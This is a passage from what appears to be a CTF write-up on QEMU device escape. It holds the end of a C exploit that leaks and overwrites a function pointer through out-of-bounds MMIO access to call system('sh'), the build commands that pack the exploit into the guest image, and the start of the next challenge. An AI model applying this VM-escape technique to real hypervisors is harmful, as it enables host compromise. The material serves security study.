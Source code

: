 ````c


    printf("oob read rand_r\n");
    uint64_t value = mmio_read(3*8);
    printf("%lx\n",value);

    uint64_t rand_r = decode(value>>32, value&0xffffffff);
    printf("%lx\n", rand_r);

    uint64_t system_addr = rand_r+0xa560;
    printf("system_addr ==> %lx\n", system_addr);

    uint64_t encode_system = encode(system_addr>>32, system_addr&0xffffffff);
    printf("encode_system ==> %lx\n", encode_system);

    uint32_t es_low  = encode_system % 0x100000000;
    uint32_t es_high = encode_system / 0x100000000;

    printf("oob write\n");
    mmio_write(3*8, es_low);
    sleep(1);
    mmio_write(3*8, es_high);

    printf("set seek=0x0\n");
    pmio_write(0x8, 0x0);


    pmio_write(0x1c,0x6873); // 0x6873 == "sh"

}

````

````sh
#!bash
gcc expliot.c -o expliot --static &&\
chmod +x expliot &&\
cp ./expliot ./cpio-root/expliot &&\
cd ./cpio-root &&\
find . | cpio -o --format=newc > ../rootfs.img
````

## 0x02 HWS2021 FastCP

### 1. 分析

````bas
#!/bin/sh

./qemu-system-x86_64 -initrd ./rootfs.img -nographic -kernel ./vmlinuz-5.0.5-generic -append "priority=low console=ttyS0" -monitor /dev/null --device FastCP

````
